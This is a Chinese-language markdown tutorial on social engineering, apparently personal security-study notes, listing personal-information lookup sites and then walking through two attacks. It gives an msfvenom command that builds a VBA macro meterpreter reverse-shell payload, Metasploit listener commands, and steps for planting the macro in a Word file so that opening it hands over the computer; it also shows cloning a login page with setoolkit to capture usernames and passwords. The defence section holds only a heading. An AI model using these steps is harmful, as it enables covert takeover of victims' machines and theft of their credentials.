# 社会工程学

	

		

```
信息收集的方法
个人信息收集内容与方法
https://mp.weixin.qq.com/s/dt2yHvWDIcdpnC3ag5gXsw
个人信息泄露查询
https://monitor.firefox.com/
https://haveibeenpwned.com/
注册查询
https://www.reg007.com/
http://regbao.com/
阿里云实名认证接口
https://market.aliyun.com/products/57000002/cmapi025518.htm
```

## 社会工程学案例和工具

### 宏病毒感染word文件

```
首先生成恶意的宏病毒后门文件
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata-ga_nai -i 10 -f vba-exe
```

+

```
这个宏病毒生成后会有两部分内容。分别对应第一部分和第二部分
```

	

	

```
msf上开始监听，等待反弹shell
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 4444
run
```

	

```
分别将两部分内容复制下来，用来在word文档创建宏后门。
首先点击创建宏
```

​		

```
点击创建后，将第一部分内容粘贴下来到这里。
```

	

```
第二部分内容粘贴到word文档下。然后保存word关闭
```

	

```
当打开word之后，就会触发宏后门文件，从而控制电脑。
```

	

### 钓鱼网站

```
比如说随便找一个登录网站。
```

		

```
然后分别使用以下选择来克隆该网站。
```

	

```
打开setoolkit工具，根据上图，一步步做选择。
```

	

	

	

	

```
并将要克隆的网站地址粘贴回车。
```

		

		

```
用克隆的kali的ip进行网站登录，如果输入账号密码，就会被截取下来
```

		

```
只要登录就能获得账号和密码。
```

	

## 社会工程学防范

			


